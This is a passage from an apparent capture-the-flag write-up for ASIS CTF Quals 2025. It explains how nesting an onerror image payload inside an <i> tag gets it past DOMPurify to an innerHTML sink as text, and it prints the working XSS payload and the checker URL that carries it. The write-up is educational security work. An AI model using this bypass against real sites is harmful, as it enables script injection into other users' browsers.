 ```javascript
document.getElementById("msg_url").textContent
// "
//     I'm in the p tag!
//     I'm in the p tag's i tag!
// " 
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909153058.png)

As we can see, the tags are gone, only the text content is in here!

Therefore, we can inject the following payload to achieve XSS:

```html
<<i>img src onerror=alert(origin)</i>>
```

The `textContent`'s value of element `msg_url` will be this:

```javascript
document.getElementById("msg_url").textContent
// "<img src onerror=alert(origin)>"
```

You might ask: Shouldn't DOMPurify sanitize and strip it out?

Well, nope, because `<`, `img src onerror=alert(origin)`, and `>` are just text. Why would DOMPurify sanitize it? :D

> Note: Since the sink is `innerHTML`, it [prevents `<script>` elements from executing when they are inserted](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations). So, we'll need to use other elements and the event listeners, such as `onerror`.

Now, let's try our payload!

```html
/checker?url=http://<<i>img src onerror=alert(origin)</i>>
```
